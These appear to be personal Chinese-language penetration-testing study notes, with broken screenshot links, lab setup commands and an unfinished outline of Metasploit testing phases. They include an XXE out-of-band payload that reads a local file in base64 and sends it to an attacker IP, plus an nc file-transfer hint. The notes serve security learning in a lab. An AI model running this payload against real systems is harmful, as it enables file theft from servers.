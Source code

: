 ![image-20230420092705545](../AppData/Roaming/Typora/typora-user-images/image-20230420092705545.png)

![image-20230420093215065](../AppData/Roaming/Typora/typora-user-images/image-20230420093215065.png)对于有特殊符号的可以用加密读取

![image-20230420093540131](../AppData/Roaming/Typora/typora-user-images/image-20230420093540131.png)



![image-20230420101702345](../AppData/Roaming/Typora/typora-user-images/image-20230420101702345.png)

![image-20230420102435523](../AppData/Roaming/Typora/typora-user-images/image-20230420102435523.png)

&#x25;

ip是攻击机的

<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=c:/1/1.txt" >
<!ENTITY % int "<!ENTITY &#x25; send SYSTEM 'http://192.168.1.128:4001/?p=%file;'>">

docker-compose up -d 开环境

docker-compose down关环境

nc传文件  加IP < 要传的文件

## Metasploit

### 渗透测试阶段

1. 前期交互

   与客户确定测试的范围和目标。这个阶段最为关键的是需要让客户组织明确清晰地了解渗透测试涉及哪些目标。而这个阶段也为你提供了机会来说服客户走出全范围渗透测试的理想化愿景，选择更加现实可行的渗透测试目标来进行实际实施

2. 情报搜集阶段

   使用各种方法搜集将要攻击的客户组织信息包括社交媒体网络、Google Hacking技术、目标系统踩点等等。作为渗透测试者最为重要的一点是对目标系统的探查能力，包括获知它的行为模式、运行机理以及最终它可以如何被攻破。

3. 威胁建模阶段

   使用你在情报搜集阶段的信息来标识出目标系统上可能存在的安全漏洞和弱点。在进行威胁建模时，你将确定出最为高效得到攻击方法。

4. 漏洞分析阶段

   确定攻击方法之后，就要考虑如何取得目标系统的访问权。

5. 渗透攻击阶段

6. 后渗透攻击阶段

   

7. 报告阶段

   

   

   ##### **渗透测试模型**
